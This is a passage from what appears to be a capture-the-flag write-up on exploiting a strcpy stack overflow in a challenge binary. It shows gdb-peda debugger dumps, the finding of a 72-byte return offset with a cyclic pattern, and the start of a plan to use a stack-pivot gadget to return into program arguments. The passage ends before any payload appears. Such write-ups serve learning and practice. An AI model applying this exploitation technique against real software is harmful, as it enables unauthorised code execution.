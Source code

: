 ```
RDI: 0x7ffe5c6d5135 ("aaawaaaxaaayaaa")
RBP: 0x6161617261616171 ('qaaaraaa')
RSP: 0x7ffe5c6d5128 ("saaataaauaaavaaawaaaxaaayaaa")
RIP: 0x4005db (<vuln+37>:       ret)
R8 : 0x7fee3ad8d9e0 --> 0x0
R9 : 0x0
R10: 0x7ffe5c6d4e90 --> 0x0
R11: 0x7fee3ab45360 --> 0xfff24a90fff24a80
R12: 0x4004c0 (<_start>:        xor    ebp,ebp)
R13: 0x7ffe5c6d5220 --> 0x2
R14: 0x0
R15: 0x0
EFLAGS: 0x206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4005d0 <vuln+26>:  call   0x400470 <strcpy@plt>
   0x4005d5 <vuln+31>:  mov    eax,0x1
   0x4005da <vuln+36>:  leave
=> 0x4005db <vuln+37>:  ret
   0x4005dc <main>:     push   rbp
   0x4005dd <main+1>:   mov    rbp,rsp
   0x4005e0 <main+4>:   sub    rsp,0x10
   0x4005e4 <main+8>:   mov    DWORD PTR [rbp-0x4],edi
[------------------------------------stack-------------------------------------]
0000| 0x7ffe5c6d5128 ("saaataaauaaavaaawaaaxaaayaaa")
0008| 0x7ffe5c6d5130 ("uaaavaaawaaaxaaayaaa")
0016| 0x7ffe5c6d5138 ("waaaxaaayaaa")
0024| 0x7ffe5c6d5140 --> 0x61616179 ('yaaa')
0032| 0x7ffe5c6d5148 --> 0x7fee3a9eef45 (<__libc_start_main+245>:       mov    edi,eax)
0040| 0x7ffe5c6d5150 --> 0x0
0048| 0x7ffe5c6d5158 --> 0x7ffe5c6d5228 --> 0x7ffe5c6d68d1 ("/root/work/level01/chall1")
0056| 0x7ffe5c6d5160 --> 0x200000000
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004005db in vuln ()
gdb-peda$ shell cyclic -o saaa
72
gdb-peda$
```

However, where to return to? Null bytes will truncate the payload with strcpy(), so I could only return once. With a bit of experimenting, I found that I could provide multiple arguments to the program and see them on the stack:

```
0256| 0x7ffe34464778 --> 0x7ffe34465843 ("/root/work/level01/chall1")
0264| 0x7ffe34464780 --> 0x7ffe3446585d ('A' <repeats 80 times>)
0272| 0x7ffe34464788 --> 0x7ffe344658ae ('B' <repeats 80 times>)
0280| 0x7ffe34464790 --> 0x7ffe344658ff ('C' <repeats 80 times>)
```

I found that right before vuln() returned, the saved return pointer would be 200 bytes from the third argument. I found a perfect gadget that would shift the stack so that it would return to the contents of the third argument:
